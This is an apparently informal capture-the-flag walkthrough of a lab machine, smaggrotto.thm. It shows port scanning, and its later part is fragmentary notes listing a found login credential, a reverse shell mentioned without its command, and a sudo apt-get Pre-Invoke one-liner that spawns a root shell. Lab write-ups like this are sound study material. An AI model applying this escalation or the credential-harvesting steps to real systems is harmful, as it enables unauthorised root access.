 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx smaggrotto.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV smaggrotto.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


<a>To: netadmin@smag.thm</a>
					<a>Cc: uzi@smag.thm</a>
					<!-- <a>Bcc: trodd@smag.thm</a> -->
					<a>From: jake@smag.thm</a>

     in pcac file, we found a subdomain : development.smag.thm

     /login.php : username=helpdesk&password=cH4nG3M3_n0w


     we do a reverse shell by entering command
     


     we found /opt/.backups/jake_id_rsa.pub.backup

     with sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
     
